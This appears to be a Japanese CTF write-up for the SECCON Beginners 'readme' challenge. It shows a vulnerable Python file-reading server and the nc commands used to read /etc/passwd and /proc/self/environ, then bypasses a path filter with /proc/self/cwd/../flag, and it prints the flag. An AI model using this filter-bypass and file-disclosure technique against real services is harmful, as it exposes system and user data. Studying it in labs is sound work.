 # readme:Misc:272pts
[readme](readme.zip-58261436215c147c3ab23cdaae6a5efd82a3ccbf)  
nc readme.quals.beginners.seccon.jp 9712  

# Solution
解凍すると以下のソースコードserver.pyが出てくる。  
```python:server.py
#!/usr/bin/env python3
import os

assert os.path.isfile('/home/ctf/flag') # readme

if __name__ == '__main__':
    path = input("File: ")
    if not os.path.exists(path):
        exit("[-] File not found")
    if not os.path.isfile(path):
        exit("[-] Not a file")
    if '/' != path[0]:
        exit("[-] Use absolute path")
    if 'ctf' in path:
        exit("[-] Path not allowed")
    try:
        print(open(path, 'r').read())
    except:
        exit("[-] Permission denied")
```
ncを行うと、どうやらファイルを読み込んでくれるらしい。  
ただし、/から始まりctfを使わないことが条件である。  
/etc/passwdを見てみる。  
```bash
$ nc readme.quals.beginners.seccon.jp 9712
File: /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
~~~
ctf:x:1000:1000:Linux User,,,:/home/ctf:/bin/ash
```
表示されたので、なんとか迂回してctfユーザのホームディレクトリにたどり着きたい。  
/proc/self/environを見てみる。  
ここで自プロセスの環境変数を見ることができる。  
```bash
$ nc readme.quals.beginners.seccon.jp 9712
File: /proc/self/environ
HOSTNAME=b2a8444bdc32 PYTHON_PIP_VERSION=20.1 SHLVL=1 HOME=/home/ctf GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/1fe530e9e3d800be94e04f6428460fc4fb94f5a9/get-pip.py PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 PYTHON_VERSION=3.7.7 PWD=/home/ctf/serve PYTHON_GET_PIP_SHA256=ce486cddac44e99496a702aa5c06c5028414ef48fdfd5242cd2fe559b13d4348 SOCAT_PID=12637 SOCAT_PPID=1 SOCAT_VERSION=1.7.3.3 SOCAT_SOCKADDR=172.21.0.2 SOCAT_SOCKPORT=9712 SOCAT_PEERADDR=219.126.191.85 SOCAT_PEERPORT=10861
```
PWDが/home/ctf/serveのようだ。  
シンボリックリンクは/proc/self/cwdである。  
そこから一つ上がればよい。  
```bash
$ nc readme.quals.beginners.seccon.jp 9712
File: /proc/self/cwd/../flag
ctf4b{m4g1c4l_p0w3r_0f_pr0cf5}
```

## ctf4b{m4g1c4l_p0w3r_0f_pr0cf5}